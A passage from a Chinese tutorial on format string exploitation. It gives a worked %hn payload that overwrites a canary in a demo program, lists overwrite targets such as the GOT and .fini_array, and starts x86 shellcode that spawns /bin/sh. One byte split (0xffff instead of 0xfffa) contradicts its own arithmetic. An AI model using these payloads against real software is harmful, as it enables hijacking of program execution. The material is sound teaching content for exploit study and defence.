 ## 1.6 利用格式化字符串漏洞改写任意内存数据

向内存中写入4个字节的方法是将其划分成两块（两个高位字节和两个低位字节），然后使用#$和%hn将它们放入到正确的位置。

例如，我们要将 0xbffffffa 写入内存 0x0804a028 ——示例代码的 canary（金丝雀）的地址，首先把值拆分：
两个高位字节（HOB）： 0xbfff
两个低位字节（LOB）： 0xffff

然后通过魔术计算公式构造一个格式化字符串：

> "\x2a\xa0\x04\x08\x28\xa0\x04\x08 %.49143x%4\$hn%.16379x%5\$hn"

```
#  ./fmttest `printf "\x2a\xa0\x04\x08\x28\xa0\x04\x08"`%.49143x%4\$hn%.16379x%5\$hn
（这里省略一大堆输出）
Canary at 0x0804a028 = 0xbffffffa
```

示例成功的将canary的内容改为0xbffffffa 。

构建示例所用的公式请对照下图（魔术公式表）：

![](http://upload-images.jianshu.io/upload_images/2405665-7a4f10104bdb0662.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
图3 魔术公式表

## 1.7 利用格式化字符串漏洞改变程序执行

我们重写一些位置就可以改变程序的执行，可以供我们利用的位置有很多，例如：

> .fini_arry 应用程序结束时需要运行的函数列表
> .global_offset_table 全局偏移表，用来记录和定位位置无关的代码（动态链接）
> 全局的函数指针
> 堆栈值
> 程序特定的身份验证变量

只要用我们准备好的shellcode的地址替换了上述的位置，程序就会按照我们的意愿去运行，下面我们来演示一下这些步骤。

### 1.7.1 准备shellcode

先写个简单的shellcode备用

```
.section .text
.global _start

_start:
xorl %eax, %eax
pushl %eax
pushl $0x68732f2f    ;//sh
pushl $0x6e69622f    ;/bin
movl %esp, %ebx
pushl %eax
pushl %ebx
movl %esp, %ecx
xorl %edx, %edx
mov $0xb, %al
int $0x80
```
